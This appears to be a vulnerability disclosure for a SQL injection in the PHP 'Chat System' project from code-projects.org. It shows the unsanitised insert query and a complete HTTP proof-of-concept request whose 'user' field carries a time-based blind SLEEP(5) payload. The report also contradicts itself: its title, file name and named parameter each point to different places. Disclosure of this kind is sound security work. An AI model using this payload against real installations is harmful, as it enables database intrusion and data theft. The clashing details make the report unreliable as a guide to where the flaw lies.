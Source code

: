 # Chat System Using PHP has sql injection in /user/addnewmember.php



## supplier



https://code-projects.org/chat-system-using-php-source-code/



## Vulnerability file



/user/leaveroom.php



## describe


The id parameter is not properly sanitized or parameterized, which leaves it vulnerable to SQL injection attacks. Attackers can exploit this by injecting malicious SQL code to manipulate the database queries. Utilizing time-based SQL injection methods, they can introduce intentional delays in the database response through functions such as SLEEP(). This technique can be employed to verify the existence of the vulnerability and may also be used to extract sensitive information from the database.



## **Code analysis**



```php
<?php
	include('../conn.php');
	$id=$_REQUEST['id'];
	$user=$_POST['user'];
	
	if (empty($user)){
	?>
		<script>
			window.alert('Please select user');
			window.history.back();
		</script>
	<?php
	}
	else{
	mysqli_query($conn,"insert into chat_member (userid, chatroomid) values ('$user','$id')");
	
	?>
		<script>
			window.alert('Member Added Successfully');
			window.history.back();
		</script>
	<?php
	}
?>
```

Inserting $_POST['user'] into Mysql without any filter. A time-based blind SQL injection can be triggered.





## POC

```http
POST /user/addnewmember.php?id=1 HTTP/1.1
Host: 127.0.0.1:8081
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="131", "Not_A Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=3d6344gkrsj651acv0qni7dk6a
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive
Content-Length: 54

user=1' AND (SELECT 1003 FROM (SELECT(SLEEP(5)))bYhJ) AND 'VosV'='VosV
```

Send this request, you can observe an additional 5 seconds time delay triggered by the time-based injection.

